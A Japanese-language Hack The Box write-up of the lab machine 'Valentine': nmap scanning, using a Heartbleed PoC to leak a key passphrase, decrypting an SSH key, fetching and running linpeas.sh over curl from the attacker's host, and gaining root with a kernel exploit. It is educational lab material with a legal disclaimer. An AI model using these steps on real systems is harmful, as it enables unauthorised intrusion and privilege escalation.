

「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。


今回は、HackTheBoxのリタイアマシン「Valentine」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [内部探索](#内部探索)
- [まとめ](#まとめ)


## 探索

いつも通りファストスキャンから始めます。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.79  targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22
|_ssl-date: 2022-07-28T12:23:13+00:00; 0s from scanner time.
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
Service Info: Host: 10.10.10.136; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

443ポートが開いているのでアクセスしてみると変な画像がでてきました。



Hertbleedの画像っぽいことがわかります。

[GitHub - mpgn/heartbleed-PoC: Hearbleed exploit to retrieve sensitive information CVE-2014-0160](https://github.com/mpgn/heartbleed-PoC)から取得したエクスプロイトコードを実行したところ、「heartbleedbelievethehype」という文字列がメモリ内から取得できましたがようとがわかりませんでした。

もう少し探索を進めるためにgobusterを回したところ、/devというパスが見つかり、中にメモと秘密鍵が埋まっていることがわかりました。

``` bash
$ gobuster dir -u http://targethost.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 | tee gobuster.txt
```

しかし、秘密鍵は`Proc-Type: 4,ENCRYPTED`の形式で、パスフレーズが設定されているようです。

ここで先ほど取得した文字列を使って秘密鍵を復号することができました。

``` bash
openssl rsa -in enc.key -out dec.key
```

ユーザ名がわからなかったので試しにrootを試してみたところ、`sign_and_send_pubkey: no mutual signature supported`のエラーがでました。

``` bash
$ ssh -i dec.ky root@10.10.10.79                                                                   
sign_and_send_pubkey: no mutual signature supported
```

これはどうやら古いバージョンのSSHが新しいSSHでサポートされていないことにより出力されているエラーのようです。

そこで、以降は古いバージョンのSSHを持つDockerコンテナを使用して進めていきます。

残念ながらrootはだめでしたが、鍵のファイル名が`hype_key`だったのでhypeを試したところ、User権限でログインができました。

## 内部探索

とりあえずlinpeasで探索を始めます。

``` bash
$ curl 10.10.14.2:5000/linpeas.sh -o linpeas.sh
$ ./linpeas.sh tee linpeas.txt
```

結果を見ていきます。

`127.0.0.1:631`が気になります。

``` bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                             
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -
```

また、いくつか刺さりそうな脆弱性もあるようです。

``` bash
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2
  #############################
    Linux Exploit Suggester 2
  #############################
  Local Kernel: 3.2.0
  Searching 72 exploits...
  Possible Exploits
  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
```

sudoのバージョンもかなり古そうです。

``` bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                           
Sudo version 1.8.3p1 
```

とりあえずいくつかサジェストされたエクスプロイトを試してみたところ、[Linux Kernel < 3.8.9 (x86-64) - 'perf_swevent_init' Local Privilege Escalation (2) - Linux_x86-64 local Exploit](https://www.exploit-db.com/exploits/26131)のエクスプロイトでrootを取得できました。

## まとめ

ローカルエクスプロイトが何してるかわからなかったのでいつかちゃんと読みたい。
